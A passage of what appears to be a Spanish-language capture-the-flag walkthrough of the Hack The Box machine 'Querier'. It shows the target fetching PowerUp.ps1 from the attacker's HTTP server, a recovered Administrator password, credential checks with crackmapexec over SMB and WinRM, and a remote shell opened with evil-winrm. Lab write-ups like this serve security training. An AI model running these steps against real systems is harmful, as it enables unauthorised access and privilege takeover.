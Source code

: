 Maquina Atacante - Recibimos la Peticion de Red
```bash
# python3 -m http.server 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [26/Jan/2022 20:06:27] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

Encontramos una Contraseña para el Usuario `Administrator`
```bash
administrator:MyUnclesAreMarioAndLuigi!!1!
```

Procedemos a Comprobarlas con Crackmapexec para `SMB` y `Winrm`
```bash
# Aqui no le ponemos el Domino -WORKGROUP y la pass no es valida
# crackmapexec smb 10.10.10.125 -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!'     
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [-] HTB.LOCAL\administrator:MyUnclesAreMarioAndLuigi!!1! STATUS_NO_LOGON_SERVERS 
                                                                                                                                                                    
# Aqui le indicamos el dominio -d WORKGROUP 
# crackmapexec smb 10.10.10.125 -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP     
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)

# Comprobacion para WINRM
# crackmapexec winrm 10.10.10.125 -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP                                                                                                            1 ⚙
WINRM       10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [+] WORKGROUP\administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

Vale pues procedemos a conectarnos a la maquina con la herramienta `evil-winrm`
```bash
# evil-winrm -i 10.10.10.125 -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!'    

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
